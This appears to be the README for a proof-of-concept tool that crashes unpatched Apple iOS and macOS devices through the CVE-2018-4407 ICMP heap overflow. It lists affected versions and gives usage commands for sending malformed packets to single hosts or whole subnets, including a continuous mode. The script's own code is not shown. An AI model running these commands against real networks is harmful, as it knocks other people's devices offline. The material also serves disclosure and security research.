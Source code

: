 # AppleDOS (CVE-2018-4407)

Based on CVE-2018-4407 (https://lgtm.com/blog/apple_xnu_icmp_error_CVE-2018-4407), this [tweet](https://twitter.com/ihackbanme/status/1057811965945376768), and this [video](https://twitter.com/kevin_backhouse/status/1057352656560287746). The bug is heap overflow vulnerability in bad packet handling through ICMP response message.

[](demo.gif)

This POC will crashes the vulnerable Apple devices by sending bad TCP packet data containing long TCP/IP header options to overflow the ICMP message when device try to send out the error message. You need the ability to send network packet data directly to the device (e.g. on the same local network).

The following operating system versions and devices are vulnerable:
- Apple iOS 11 and earlier: all devices
- Apple macOS High Sierra, up to and including 10.13.6: all devices
- Apple macOS Sierra, up to and including 10.12.6: all devices
- Apple OS X El Capitan and earlier: all devices

## Example

Make sure you have Python 3 and scapy.

```
pip install scapy
# or
pip3 install scapy
```

You may need to run the script as root.

Send bad packet to 192.168.1.0/24 subnet.

```
sudo ./appledos.py 192.168.1.0/24
```

Shows IP after packet sent.

```
sudo ./appledos.py --verbose 192.168.1.0/24
```

Send bad packet to 192.168.1.0/24 subnet continuously.

```
sudo ./appledos.py --continuous 192.168.1.0/24
```

Change destination port (default: 80).

```
sudo ./appledos.py --continuous --port 22 192.168.1.0/24
```

Send bad packet to only one IP.

```
sudo ./appledos.py 192.168.1.118
```

Set maximum workers (default: 10).

```
sudo ./appledos.py --worker 10 192.168.1.0/24
```

## Note

This script is using scapy and it has know issue for handling `/dev/bpf` (Berkeley Packet Filter) when sending packet data from OS like macOS with multi-thread. If you encounter `No /dev/bpf handle is available`, try to reduce the worker number to 1 or 2. Or, you can just use Linux like in the demonstration video.
